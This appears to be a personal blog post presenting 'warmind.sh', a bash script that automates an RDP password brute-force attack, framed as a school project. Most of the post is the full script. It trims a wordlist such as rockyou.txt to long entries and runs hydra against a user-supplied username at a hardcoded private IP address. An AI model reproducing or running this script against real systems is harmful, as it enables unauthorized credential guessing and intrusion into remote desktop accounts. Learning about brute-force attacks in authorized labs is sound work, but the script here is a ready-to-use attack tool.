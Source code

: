 ```yaml
---
layout: post
author: Gh0st-D3V
tags: [Automation, Scripting]
---
```


# warmind.sh
## Automation of an RDP bruteforce


The goal of this script is to automate a rdp bruteforce attack against a specific IP for a school project


## Warmind Steps

- Asks user for /path/to/wordlists they would like to use
- Warmind then greps out and saves all items 12characters to 16characters to a new list in the working directory to use againnst the IP
- Warmind then asks for a possible username to attack

## Upcoming changes

- Add option to use a file or single IP address instead of using hardcoded IP
---

## Code

```
#!/bin/bash

#Title: Warmind Rasputin
#Author: Gh0st-D3V
#Creation Date: 2/21/23
#Version: 0.2 Dev

if [ "$EUID" -ne 0 ]; then 
        echo "Warmind Access is limited to root users only"
        exit
fi

clear
echo "           @@@@@@@@@@@@@@@@@@@@@@@@@@# @.@ @@@@@@@@@@@@@@@@@@@@@@@@@@#"
echo "             ,@@@@@@@@@@@@@@@@@@@@@ @@@@.@@@./@@@@@@@@@@@@@@@@@@@@@"
echo "                @@@@@@@@@@@@@@@@# @@@@@@.@@@@@@ @@@@@@@@@@@@@@@@#"
echo "                  *@@@@@@@@@@@ %@@@@@@#.  @@@@@@@,(@@@@@@@@@@@"
echo "                             @@@@@@@ %@@.@@ (@@@@@@@"
echo "                          %@@@@@@#.@@@@@.@@@@% @@@@@@@,"
echo "                        @@@@@@@ &@@@@@@* &@@@@@@ (@@@@@@@"
echo "                     &@@@@@@#.@@@@@@@      ,@@@@@@% @@@@@@@."
echo "                   *@@@@@@@ @@@@@@@          %@@@@@@*.@@@@@@@."
echo "                      @@@@@@@**@@@@@@&     @@@@@@@ @@@@@@@("
echo "                        *@@@@@@@ @@@@@@@.@@@@@@*,@@@@@@@"
echo "                           @@@@@@@**@@@@.@@@@ @@@@@@@("
echo "                             /@@@@@@@ @@.@*,@@@@@@@"
echo "                                @@@@@@@/ @@@@@@@("
echo "                                  *@@@@@.@@@@@"
echo "                                     @@@.@@("
echo "                                       *.   "
echo " Rasputin Online!"
echo -n "Do you want to initiate warsats? (yes/no): "; read Console
if [ "$Console" = "yes" ]; then 
       echo  -n "Enter path/to/wordlist (/usr/share/wordlists/rockyou.txt): "; read path
        cat "$path" | grep -E '^.{12,}' > passlist.txt
        echo -n "Enter possible user credentials: "; read users
        sudo hydra -I -l "$users" -P passlist.txt -t 1 -F -V rdp://172.16.139.39 
        exec "$0"
elif [ "$Console" = "no" ]; then
        echo "Goodbye"
        sleep 3
        clear
        exit
else
        echo "Invalid selection"
        exec "$0"
fi
   
```
---
{: data-content="footnotes"}

[^1]: GOOSE.py can be found over [here](https:Gh0st-D3V.github.io/goose-py) 
